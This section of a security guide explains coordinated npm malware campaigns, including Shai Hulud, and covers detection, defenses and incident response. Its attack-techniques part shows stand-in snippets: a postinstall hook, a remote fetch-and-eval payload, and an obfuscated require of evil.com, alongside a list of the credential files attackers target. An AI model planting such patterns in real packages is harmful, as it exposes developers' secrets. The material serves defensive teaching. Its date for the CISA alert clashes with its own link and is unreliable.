

# 10.11 Ecosystem-Scale Package Malware Campaigns

The era of isolated malicious packages is ending. Attackers have shifted from opportunistic, one-off attacks to coordinated campaigns that compromise many packages simultaneously, spread through developer workflows, and persist across the ecosystem. These **wormable campaigns** represent a step change in supply chain attack sophistication—and they're scaling faster than defenses can keep up.

In 2024-2025, the number of malicious open source packages surged by 188% year-over-year, according to industry analysis.[^malicious-package-surge] CISA issued warnings about widespread compromises in the npm ecosystem, signaling that "registry malware at scale" has moved from theoretical concern to operational reality.

#### From Isolated Attacks to Coordinated Campaigns

Traditional package malware involved a single malicious package designed to capture credentials or establish persistence. Modern campaigns are different:

**Characteristics of ecosystem-scale attacks:**

| Aspect | Isolated Attack | Ecosystem Campaign |
|--------|-----------------|-------------------|
| Scope | Single package | Hundreds to thousands of packages |
| Propagation | Manual discovery | Automated spreading via dependencies |
| Persistence | Single point of failure | Redundant across many packages |
| Detection | Easier to identify and remove | Whack-a-mole; removal of one doesn't stop others |
| Coordination | Individual attacker | Organized operation with infrastructure |

**Why campaigns are more dangerous:**

The shift to coordinated campaigns fundamentally changes the defender's calculus. When security teams discover a single malicious package, removing it solves the problem. But when attackers distribute malicious code across hundreds of packages, removal becomes a game of whack-a-mole—each package found and removed represents only a fraction of the threat.

Campaign-based attacks also exploit **network effects** in the dependency graph. A compromised package that's used as a dependency by other packages can spread malicious code transitively. Even if the original malicious package is removed, downstream packages that vendored or copied its code may remain compromised.

Perhaps most concerning is the **asymmetric resource equation**. Attackers can automate package creation and publication, generating hundreds of malicious packages with minimal effort. Defenders, meanwhile, must individually review each package—a process that requires human judgment and cannot be fully automated. When attackers can create packages faster than defenders can review them, the attackers win.

#### The Shai Hulud Campaign

In 2025, security researchers identified what was dubbed the largest and most dangerous npm supply chain compromise in history—the **Shai Hulud** malware campaign.

**Scale:**

- Hundreds of JavaScript packages affected
- Multiple publication accounts involved
- Coordinated timing of malicious updates
- Infrastructure designed for persistence and evasion

**Attack methodology:**

1. **Account compromise or creation**: Attackers obtained control of multiple npm accounts
2. **Package selection**: Targeted both new packages and updates to existing ones
3. **Staggered release**: Published malicious packages over time to avoid detection spikes
4. **Payload variation**: Used different obfuscation techniques across packages
5. **Dependency targeting**: Some packages designed to be included as dependencies of others

**Payload capabilities:**

The Shai Hulud payloads demonstrated sophisticated multi-stage attack design. Initial infection focused on **credential theft from development environments**—harvesting npm tokens, GitHub credentials, AWS keys, and other secrets that would enable further attacks. This approach treats the developer machine not as the final target but as a stepping stone to more valuable assets.

**Cryptocurrency wallet targeting** provided immediate financial return. The malware scanned for wallet files and browser extensions associated with popular cryptocurrencies, exfiltrating private keys that could be used to drain funds. This monetization approach helps fund continued attack operations.

For longer-term access, the campaign installed **backdoors for persistent access**—allowing attackers to return to compromised systems even after the initial malicious package was removed. These backdoors often masqueraded as legitimate system processes or development tools.

All collected data flowed to **command-and-control infrastructure** designed for resilience. The attackers used domain generation algorithms and fallback communication channels to maintain access even when individual C2 servers were taken down.

**Impact:**

The campaign affected organizations across multiple sectors, with many discovering the compromise only after malicious packages had been installed in production environments. The delayed discovery is characteristic of well-designed supply chain attacks: victims don't know they're compromised until the attacker has already achieved their objectives. For some organizations, the first indication of compromise came when cryptocurrency was stolen or when credentials appeared for sale on dark web markets.

#### CISA Warning: Widespread npm Ecosystem Compromise

In September 2023, [CISA issued an alert][cisa-npm] warning of widespread supply chain compromise impacting the npm ecosystem. This represented an unusual step—federal agencies typically issue alerts for specific vulnerabilities, not ecosystem-wide threats.

**Key points from the alert:**

The alert identified multiple malicious packages distributed across the npm registry, noting that attackers were using increasingly sophisticated techniques to evade detection. Organizations were urged to audit their npm dependencies—not just for known vulnerabilities, but for any packages with suspicious characteristics or unknown provenance.

CISA emphasized the need for improved supply chain security practices, effectively acknowledging that the status quo—where developers freely install packages without verification—is no longer sustainable for organizations with meaningful security requirements.

**Significance:**

CISA's involvement elevates package ecosystem security from a developer concern to a national security issue. Federal agencies typically issue alerts for specific vulnerabilities with assigned CVEs—discrete, identifiable problems with discrete solutions. Issuing an alert for an entire ecosystem signals something different: a systemic threat that cannot be addressed by patching individual packages.

The alert acknowledged what security practitioners had been observing for years: npm (and by extension, PyPI, RubyGems, and other package ecosystems) faces threats that individual package reviews cannot address. When attackers can distribute malicious code across hundreds of packages faster than defenders can identify them, traditional approaches to dependency security are insufficient. The CISA alert was, in effect, a public acknowledgment that the open source supply chain has become critical infrastructure requiring commensurate protection.

#### Attack Techniques: Evolution of Malicious Packages

Modern malicious packages have evolved sophisticated techniques to evade detection:

**Post-install execution:**

The `postinstall` script runs automatically when a package is installed—before any code review can occur:

```json
{
  "name": "helpful-utility",
  "scripts": {
    "postinstall": "node setup.js"
  }
}
```

The `setup.js` file might contain obfuscated malicious code that executes immediately upon `npm install`.

**Staged payloads:**

Rather than including malicious code directly, packages fetch payloads at runtime:

```javascript
// Looks innocuous during static analysis
const config = await fetch('https://cdn.example.com/config.json');
eval(config.payload);  // Malicious code loaded dynamically
```

**Delayed triggers:**

Malicious code activates only under specific conditions:

```javascript
// Only triggers in production environments
if (process.env.NODE_ENV === 'production') {
  // Malicious payload
}

// Only triggers after a date
if (Date.now() > 1735689600000) {
  // Time-delayed payload
}

// Only triggers for specific targets
if (process.env.AWS_ACCOUNT_ID === 'target-account') {
  // Targeted payload
}
```

**Obfuscation techniques:**

Malicious package authors have developed an arsenal of obfuscation techniques to evade static analysis tools and human review. The simplest approach uses **Base64-encoded strings decoded at runtime**—a technique that defeats naive string matching but is easily detected by security tools looking for encoding patterns.

More sophisticated approaches use **character code manipulation** to construct strings character by character, making the final URL or command invisible in the source code. Attackers might also use **encrypted payloads** with keys derived from environment variables—ensuring the payload only decrypts (and becomes visible) in the target environment.

**Unicode confusables** exploit the visual similarity between characters from different scripts. A variable named `config` using Cyrillic characters looks identical to one using Latin characters but represents a completely different identifier. This technique can hide malicious code in what appears to be legitimate variable references.

The most insidious obfuscation embeds malicious logic within **legitimate-looking code**. Rather than hiding obviously malicious constructs, attackers write code that appears to perform normal operations but has hidden side effects—such as a logging function that also exfiltrates data, or a configuration loader that executes arbitrary code from its input.

**Example obfuscation:**

```javascript
// Obfuscated data exfiltration
const _0x4a2b = ['\x68\x74\x74\x70\x73\x3a\x2f\x2f'];
const _0xf3c1 = require(_0x4a2b[0] + 'evil.com');
```

**Data theft focus:**

Modern malicious packages prioritize **data exfiltration over destructive actions**. This reflects a strategic choice by attackers: destruction is noisy and triggers immediate incident response, while data theft can go unnoticed for weeks or months, allowing attackers to maximize the value of their access.

The most valuable targets are **environment variables**, which in modern development environments often contain database credentials, API keys, cloud provider secrets, and authentication tokens. A single `process.env` dump can provide access to an organization's entire infrastructure.

**SSH keys and credentials files** provide persistent access that survives password rotations. Attackers specifically target `~/.ssh/`, `~/.aws/`, `~/.config/`, and other directories where developers store long-lived credentials.

**Browser cookies and stored passwords** from development machines give attackers access to the services developers use daily: GitHub, cloud consoles, CI/CD systems, and internal tools. These credentials often have elevated privileges compared to normal users.

**Cloud provider credentials** are particularly valuable because they typically provide broad access. An AWS access key from a developer machine might have permissions to read production databases, modify infrastructure, or access customer data.

**Cryptocurrency wallet files** provide immediate monetization. Unlike other stolen data that must be sold or leveraged for further access, cryptocurrency theft converts directly to funds the attacker can use.

Finally, **source code and intellectual property** can be sold to competitors, used for competitive intelligence, or analyzed for additional vulnerabilities to exploit.

#### The 188% Surge: Understanding the Scale

Industry analysis in 2024-2025 documented a 188% increase in malicious open source packages year-over-year. This growth reflects several trends:

**Attacker economics:**

The economics of package ecosystem attacks heavily favor attackers. Publishing packages costs nothing—npm, PyPI, and other registries offer free accounts with no meaningful identity verification. An attacker can create dozens of accounts and publish hundreds of packages with minimal investment.

The potential returns are substantial. Access to a single developer's credentials can unlock cloud infrastructure, source code repositories, and production systems. Cryptocurrency theft provides immediate monetization without the friction of selling data on dark web markets.

Perhaps most importantly, the **risk of attribution or prosecution is minimal**. Attackers can operate from jurisdictions without extradition treaties, use anonymous publishing accounts, and obscure their infrastructure behind layers of proxies and bulletproof hosting. The asymmetry is stark: attackers face essentially no consequences while defenders bear all the costs.

**Automation** amplifies these advantages. Attackers can script package creation, randomize names and content, and publish at scale. A single operator can maintain hundreds of malicious packages across multiple ecosystems with minimal ongoing effort.

**Ecosystem vulnerabilities:**

The structure of modern package ecosystems creates inherent vulnerabilities that attackers exploit. With millions of packages in major registries, comprehensive review is impossible. No human team can evaluate every package, and automated tools miss sophisticated attacks.

**Dependency trees** compound the problem. A typical JavaScript project might have hundreds of transitive dependencies—packages that are dependencies of dependencies, often many levels deep. Developers rarely examine these transitive dependencies, yet each one represents potential attack surface.

Developer culture exacerbates the risk. The open source ethos values sharing and reuse, encouraging developers to **trust packages without verification**. The friction-free nature of `npm install` or `pip install` makes adding dependencies trivially easy, while the effort to properly vet a package is substantial.

**CI/CD systems** amplify the blast radius. When pipelines automatically install packages as part of builds, a single malicious package can execute on every build across an organization—or across thousands of organizations that use the same dependency.

**Detection challenges:**

Defenders face fundamental limitations in detecting malicious packages. Static analysis can identify known malicious patterns, but **obfuscation defeats** most automated scanning. Attackers continuously evolve their techniques to evade detection rules.

**Dynamic analysis** (actually running the code) can reveal malicious behavior but requires executing potentially dangerous code and may miss time-delayed or environment-specific triggers. Sandboxing helps but adds friction and may not catch all behaviors.

The **volume problem** is insurmountable at the individual package level. When thousands of new packages are published daily, manual review capacity is overwhelmed. Defenders must use statistical and behavioral approaches rather than comprehensive analysis.

Most challenging is detecting **compromises of legitimate packages**. A package with years of history and thousands of users can be compromised when its maintainer account is taken over. The package's reputation provides cover for malicious updates, and users who trusted the package's history may not scrutinize new versions.

#### Wormable Package Malware

The most concerning development is packages that can propagate through the dependency graph:

**Propagation mechanisms:**

1. **Dependency injection**: Malicious package adds itself as a dependency of other packages the attacker controls
2. **Account takeover chain**: Compromise package maintainer accounts to inject into legitimate packages
3. **Pull request attacks**: Submit malicious PRs that are merged by unsuspecting maintainers
4. **CI/CD propagation**: Use access gained through one package to compromise packages built in the same pipeline

**Example scenario:**

1. Attacker compromises `utility-lib` (10,000 weekly downloads)
2. Malicious code in `utility-lib` accesses npm tokens in CI environments
3. Those tokens are used to publish malicious updates to *other* packages
4. Each compromised package can repeat the cycle

This creates exponential growth potential for supply chain compromises.

#### OpenSSF Neo Malware Analysis

The Open Source Security Foundation (OpenSSF) has [documented the evolution][openssf-neo] of malicious packages, identifying patterns that security tools should detect:

**Common indicators:**

The OpenSSF analysis identifies several patterns that distinguish malicious packages from legitimate ones. **Obfuscated or minified code in source packages** is a red flag—legitimate packages typically include readable source code, reserving minification for browser bundles. When source files contain obfuscated variable names and encoded strings, something is likely wrong.

**Network connections during install or import** are suspicious because legitimate packages rarely need to contact external servers at installation time. Configuration fetching, telemetry, or update checking at import time is also unusual and warrants investigation.

**Access to sensitive files or directories** reveals malicious intent. Packages that read `~/.ssh/`, `~/.aws/`, browser profile directories, or cryptocurrency wallet locations are almost certainly malicious unless they have a clear, documented purpose for doing so.

**Environment variable harvesting**—collecting all environment variables rather than specific, documented ones—is a strong indicator of credential theft. Legitimate packages might read specific environment variables for configuration; they don't dump the entire environment.

**Unusual file system access patterns** include writing to system directories, creating hidden files, or modifying other packages' files. **Encoded strings that decode to URLs or commands** suggest the package is hiding its true behavior from casual review.

**Detection recommendations:**

Based on these patterns, the OpenSSF recommends several defensive approaches. Organizations should **implement behavioral analysis at package ingestion**—not just scanning for known malicious packages, but analyzing what packages do when installed or imported.

**Monitoring for known malicious patterns** remains valuable despite evasion techniques. Signature-based detection catches unsophisticated attacks and known variants, buying time while attackers develop new techniques.

**Verifying package integrity against upstream sources** catches tampering that occurs between the author's repository and the registry. If a package's published code differs from its GitHub source, something is wrong.

The most robust defenses **limit what packages can do during installation**. Disabling install scripts eliminates an entire class of attacks. For packages that require install-time execution, **sandboxing** constrains the damage a malicious package can cause—limiting network access, file system access, and available privileges.

#### Defending Against Ecosystem-Scale Attacks

Traditional package security (reviewing individual dependencies) cannot scale to address ecosystem-wide threats. Organizations need layered defenses:

**At the registry level:**

Registries themselves are implementing defenses, though progress varies. **Package signing** provides cryptographic verification of publisher identity—if you trust the publisher's key, you can trust that the package came from them. npm's provenance feature and PyPI's trusted publishers implement this approach.

**Provenance tracking** documents where packages come from and how they're built. SLSA provenance links published packages to their source code and build process, making it harder for attackers to inject malicious code without detection.

**Anomaly detection** identifies unusual publication patterns—sudden bursts of new packages, packages with names similar to popular ones, or changes in a package's behavior profile. These heuristics catch some attacks but generate false positives for legitimate activity.

**Reputation systems** track package and maintainer trustworthiness over time. A maintainer with years of legitimate contributions is less likely to suddenly publish malware than a newly-created account. However, account takeover attacks specifically target reputable maintainers, making reputation a necessary but insufficient signal.

**At the organization level:**

Organizations can implement controls that don't exist at the registry level. **Private registries** mirror and vet packages before internal use—creating an air gap between the public ecosystem and internal development. This adds operational overhead but provides strong protection against ecosystem-wide attacks.

**Allowlists** restrict which packages can be installed to a pre-approved set. This is operationally expensive (every new package requires approval) but effective for high-security environments where the cost is justified.

**Lock files** pin exact versions and verify integrity through cryptographic hashes. When a lock file specifies a particular version with its hash, any tampering with that version is detected. Lock files don't prevent installation of new malicious packages but protect against modifications to already-vetted ones.

**Dependency review** automates scanning for known malicious packages. Tools integrate with package databases and threat intelligence to block known-bad packages before installation.

**Installation sandboxing** runs `npm install` or `pip install` in isolated environments with limited capabilities—no network access, restricted file system access, and minimal privileges. Even if a malicious package executes, the sandbox limits the damage it can cause.

**At the project level:**

Individual projects can reduce their exposure through disciplined dependency management. **Minimizing dependencies** is the most effective defense—every package you don't use is a package that can't compromise you. Before adding a dependency, ask whether the functionality is truly necessary and whether it could be implemented directly.

**Auditing dependencies** means regularly reviewing what you're using and why. Dependencies accumulate over time; packages added years ago may no longer be necessary or may have better alternatives. Periodic review keeps the dependency surface manageable.

**Monitoring for updates** ensures you're aware of security advisories affecting your dependencies. Tools like Dependabot, Renovate, and language-specific equivalents automate this process.

**Disabling install scripts** with `--ignore-scripts` eliminates post-install execution entirely. Many projects can function without install scripts; for those that can't, the specific packages requiring them can be evaluated individually.

**Example: Sandboxed installation:**

```bash
# Run npm install in a container with limited capabilities
docker run --rm \
  --network=none \
  --read-only \
  --cap-drop=ALL \
  -v $(pwd):/app \
  node:20 npm install --ignore-scripts
```

#### Supply Chain Firewalls

A new category of security tools has emerged: **supply chain firewalls** that act as gatekeepers for package installation. Rather than scanning installed packages for vulnerabilities after the fact, these tools intercept installation requests and block known malicious packages before they can execute.

**Capabilities:**

Supply chain firewalls provide multiple layers of protection. They **block packages with known vulnerabilities or malware**, integrating with continuously-updated threat databases. Unlike vulnerability scanners that report issues for human remediation, firewalls actively prevent problematic packages from being installed.

They can **prevent installation of packages from untrusted publishers**—newly-created accounts, accounts with no verified identity, or publishers with a history of problems. This reputation-based filtering catches attacks from new malicious accounts, though it may also block legitimate new packages.

Organizations can **enforce policies on allowed packages** through firewall rules. A policy might require that all packages be at least 30 days old, have a minimum number of downloads, or come from a list of approved publishers. These policies reduce exposure to attack while allowing flexibility.

Comprehensive **logging and audit** of all package installations provides visibility and forensic capability. When a compromise is discovered, logs reveal exactly which packages were installed, when, and by whom.

**Integration with vulnerability databases and threat intelligence** ensures that defenses stay current. As new malicious packages are discovered, the firewall's blocklist updates automatically.

**Example tools:**

Several tools provide supply chain firewall capabilities:

- **Socket.dev**: Analyzes packages for supply chain risks, focusing on behavioral indicators rather than just known vulnerabilities. Socket examines what packages do—network access, file system operations, shell commands—to identify suspicious behavior.

- **Snyk**: Provides vulnerability and malware detection integrated with development workflows. Snyk's database covers known vulnerabilities and malicious packages across major ecosystems.

- **Phylum**: Offers package risk analysis and blocking with an emphasis on detecting previously-unknown malicious packages through behavioral analysis and machine learning.

- **npm audit**: npm's built-in vulnerability checking provides baseline protection but focuses on known vulnerabilities rather than malware detection. It's a starting point, not a complete solution.

#### Incident Response for Package Compromises

When a malicious package is discovered in your environment, the response requires speed, thoroughness, and an assumption of worst-case compromise. Unlike traditional malware incidents, supply chain compromises often affect multiple systems simultaneously and may have been present for extended periods before detection.

**Immediate actions:**

The first priority is **identifying exposure**—determining which systems have the package installed. This requires comprehensive dependency analysis across all projects, including transitive dependencies. The malicious package might not be directly listed in your `package.json` but could be a dependency of a dependency.

**Containment** means preventing further installations while you assess the damage. Block the package in your supply chain firewall or registry proxy. Isolate affected systems from the network if there's evidence of active compromise or command-and-control communication.

**Impact assessment** determines what the malicious package could have accessed. Review the package's code to understand its capabilities. Did it harvest environment variables? Access the file system? Establish network connections? The package's behavior determines what credentials and data might be compromised.

**Credential rotation** should be aggressive. Assume that any secret accessible to the affected systems is compromised: API keys, database credentials, cloud provider tokens, signing keys. The cost of unnecessary rotation is low compared to the cost of leaving compromised credentials active.

Finally, **remove** the malicious package from all systems and verify removal. Lock files should be updated to prevent reinstallation. Consider whether other packages from the same publisher should also be removed.

**Investigation:**

A thorough investigation establishes the timeline and scope of compromise. **Review build logs** to determine when the package was first installed—this sets the window during which credentials might have been exfiltrated.

**Check for outbound network connections** from build systems and developer machines during the exposure window. Malicious packages often beacon to command-and-control servers; network logs may reveal these connections.

**Audit what secrets were accessible** during builds. CI/CD environments often have access to deployment credentials, code signing keys, and cloud provider tokens. All of these should be assumed compromised and rotated.

**Look for evidence of data exfiltration** in network logs, file access patterns, and system behavior. The absence of evidence isn't evidence of absence—sophisticated attacks may not leave obvious traces.

**Determine if the package propagated** to other systems through your build pipeline or dependency management. A malicious package in a shared library might affect every project that uses that library.

**Recovery:**

Recovery goes beyond removing the immediate threat to preventing recurrence. **Rotate all potentially exposed credentials**—not just the ones you're certain were compromised. The cost of over-rotation is manageable; the cost of leaving a compromised credential active is not.

**Rebuild affected systems from known-good images** rather than attempting to clean them. Malicious packages may install persistence mechanisms that survive package removal.

**Update dependencies** to remove the malicious package and any other packages from the same publisher that might be compromised. Lock files should reflect verified-good versions.

**Implement additional controls** based on lessons learned. If the package was installed because it wasn't on an allowlist, strengthen allowlist enforcement. If detection was slow, invest in better monitoring.

**Report the package to the registry** so others can be protected. Registries have processes for removing malicious packages; prompt reporting limits the damage to the ecosystem.

#### Recommendations

**For Developers:**

1. **Minimize dependencies.** Every package you add is attack surface. Question whether each dependency is necessary.

2. **Pin exact versions.** Use lock files and verify integrity hashes. Never use floating version ranges in production.

3. **Review before updating.** Check changelogs and diffs before accepting dependency updates, especially for packages that run install scripts.

4. **Disable install scripts when possible.** Use `--ignore-scripts` if your dependencies don't require post-install execution.

**For Security Teams:**

1. **Implement supply chain firewalls.** Use tools that block known malicious packages before they reach your environment.

2. **Monitor for anomalies.** Track package installation patterns and alert on unusual activity.

3. **Sandbox installations.** Run package installations in isolated environments with limited network access.

4. **Maintain incident response plans.** Have procedures ready for discovering malicious packages in your environment.

**For Organizations:**

1. **Establish package governance.** Define policies for which packages can be used and how they're vetted.

2. **Consider private registries.** Mirror packages internally and vet them before allowing use.

3. **Invest in detection capabilities.** Deploy tools that can identify malicious packages through behavioral analysis.

4. **Participate in ecosystem security.** Report malicious packages; contribute to shared threat intelligence.

Ecosystem-scale package malware represents a fundamental challenge to the trust models underlying modern software development. The open source ecosystem's greatest strength—frictionless sharing of code—is also its greatest vulnerability. Organizations must assume that malicious packages exist and build defenses accordingly.

[cisa-npm]: https://www.cisa.gov/news-events/alerts/2025/09/23/widespread-supply-chain-compromise-impacting-npm-ecosystem
[openssf-neo]: https://openssf.org/blog/2024/07/31/neo-malware-malicious-open-source-packages/


